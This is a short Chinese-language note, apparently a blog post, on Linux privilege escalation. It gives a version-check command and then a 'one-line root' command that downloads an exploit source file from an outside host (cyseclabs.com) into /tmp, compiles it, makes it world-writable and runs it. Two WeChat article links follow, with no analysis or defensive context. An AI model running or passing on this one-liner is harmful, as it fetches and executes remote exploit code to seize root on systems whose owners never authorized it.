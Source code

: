 
```
lsb_release -a 查看版本号

一句话提权
wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
```
![image.png](https://upload-images.jianshu.io/upload_images/7373593-508fd5c1e90ae371.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
相关链接：
http://mp.weixin.qq.com/s?__biz=MzU5MjEzOTM3NA==&mid=2247485209&idx=1&sn=74199be057b75d14276fb6be264fea92&chksm=fe250218c9528b0e9b5b3330d3a2e02be068c91a9b81be4a587d6579fa2e043f0833ed13acb8&mpshare=1&scene=1&srcid=0322dIBu0v8LiSLXMCYuyLx5#rd

http://mp.weixin.qq.com/s?__biz=MzAwMTUyMjQ5OA==&mid=2650965604&idx=1&sn=166a2820b6148c79ad8275cf1f672559&chksm=812e4849b659c15f68ee18dfd91c7e83c8d846a7f633be53cd139cc6cfb6a71b8b414eb43e2e&mpshare=1&scene=1&srcid=0321Qh3nXBxeTHx3zYEJ5xuN#rd